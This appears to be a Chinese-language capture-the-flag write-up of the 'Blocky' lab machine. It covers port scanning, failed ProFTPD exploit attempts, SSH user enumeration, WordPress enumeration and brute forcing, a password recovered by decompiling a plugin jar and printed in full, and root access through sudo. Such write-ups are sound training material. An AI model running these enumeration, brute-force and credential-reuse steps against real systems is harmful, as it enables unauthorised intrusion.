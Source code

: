 ```yaml
---
title: Blocky（源码泄露、java反编译）
categories:
- training
tags:
- training
- cms
- linux
---
```


10.10.10.37 
```
21/tcp    open  ftp       ProFTPD 1.3.5a
22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http      Apache httpd 2.4.18 ((Ubuntu))
25565/tcp open  minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
```
---

## 21
```
ftp 10.10.10.37

searchsploit ProFTPD
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                     | exploits/linux/remote/36803.py

msfconsole
use exploit/unix/ftp/proftpd_modcopy_exec
执行失败
```
## 22
```
python ssh.py --userList /usr/share/wordlists/linux-user.txt --outputFile out.txt 10.10.10.37

ssh root@10.10.10.37
ssh_exchange_identification: Connection closed by remote host
```
ssh禁止过多的连接

## 80
```
Server: Apache/2.4.18 (Ubuntu)
WordPress version 4.8 

http://10.10.10.37:80
wpscan --url 10.10.10.37 --enumerate p
wpscan --url 10.10.10.37 --enumerate p --enumerate u

searchsploit wordpress Host Header Injection

WordPress 2.3-4.8.3 - Host Header Injection in Password Reset
```
手动检查了一个wpscan提示的可能漏洞，检查并没有，于是用burp scanner扫描一遍再说。

#### useful info
```
phpadmin vesion4.5.4（burp scanner扫描结果）
WordPress/4.8
http://10.10.10.37/phpmyadmin/index.php
http://10.10.10.37/wp-login.php
http://10.10.10.37/wp-links-opml.php
http://10.10.10.37/plugins/
```
## 25565
searchsploit Minecraft
经过搜索，好像是一个游戏，“《我的世界》是一款沙盒游戏。。。”
```
nc -nv 10.10.10.37 25565
wget http://10.10.10.37:25565
```
--- 

## writeup
```
wpscan --url 10.10.10.37 --enumerate
[+] Notch
 | Detected By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
获得一个用户名
- trying1: 弱口令检查
wpscan --url http://10.10.10.37/wp-login.php --wordlist /usr/share/wordlists/rockyou.txt --username Notch
失败

---

在plugin目录下下载jar文件，unzip解压，jad反编译，获得一个口令
![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-19/11.PNG)

以/root/8YsqfCTnvxAUeduzjNSXe22，登录phpmyadmin成功。

```
ssh root@10.10.10.37
ssh Notch@10.10.10.37
ssh notch@10.10.10.37，成功
```
提权：
```
whoami 以notch普通用户登陆

sudo -l 
响应，说明该用户可以运行任何命令
User notch may run the following commands on Blocky:
    (ALL : ALL) ALL

groups notch 查看该用户所在的组，有sudo组

notch : notch adm cdrom sudo dip plugdev lxd lpadmin sambashare

sudo su
```
以前用过[该方式提权](https://whale3070.github.io/training/2017/11/02/g0rmint-%E4%B8%80%E5%8F%A5%E8%AF%9D%E5%86%99%E5%85%A5log-%E6%8F%90%E6%9D%83/)。

## 总结
第一次尝试了java反汇编

wpscan可以使用不带参数的--enumerate，来枚举所有可能漏洞。
